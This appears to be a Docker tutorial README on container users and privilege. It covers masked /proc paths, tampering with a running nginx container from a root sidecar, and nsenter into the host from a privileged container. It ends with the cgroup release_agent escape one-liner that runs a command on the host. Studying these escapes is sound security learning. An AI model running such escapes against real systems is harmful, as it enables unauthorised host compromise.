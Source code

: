 # ROOT USER

Demonstrate root user and privilege inside the container.  

TODO:

* try and nsenter into the host
* try and list all the host processes from inside the container.

Refer to [../13_users_and_permissions/README.md](../13_users_and_permissions/README.md) for more examples.  

NOTES:

* It looks as though the ubuntu containers now come with a preinstalled ubuntu user id:1000.  

## 📋 Script to follow

Demonstrate internal users and privilege  

### Build the image (root and user)

```sh
# build root
just docker-build root
# build myuser
just docker-build user
```

### Run as privileged (root)

```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name 05_root 05_root

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_root -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)

```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name 05_user 05_user

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_user -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)

```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name 05_root 05_root

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_root -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```

### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name 05_user 05_user

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_user -q)

```

## Modify another container using sidecar rootuser

Start an nginx container

```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" 05_root

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" 05_root

# try and nsenter into the host
# try and list all the containers from inside.
```

## Get onto the docker desktop alpine host

```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config  

```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container

This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  

```sh
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
